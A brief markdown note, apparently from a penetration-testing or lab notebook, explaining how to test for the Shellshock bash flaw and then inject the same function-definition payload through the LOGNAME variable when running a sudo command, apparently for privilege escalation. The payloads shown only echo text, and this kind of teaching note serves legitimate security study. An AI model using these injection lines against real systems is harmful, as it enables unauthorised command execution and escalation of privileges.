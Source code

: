 ## Shellshock

Test to see if the shellshock vulnerability exists. The following script will attempt to create a variable. 

	jwalley='() { :;}; echo MyFeedback' bash -c :

If this is successful try adding this to a variable in the environmentals  for the user. Type env to find this info See example below:

	LOGNAME='() { :;}; echo PleaseSubscribe' sudo /root/troll

Return to [[-README]]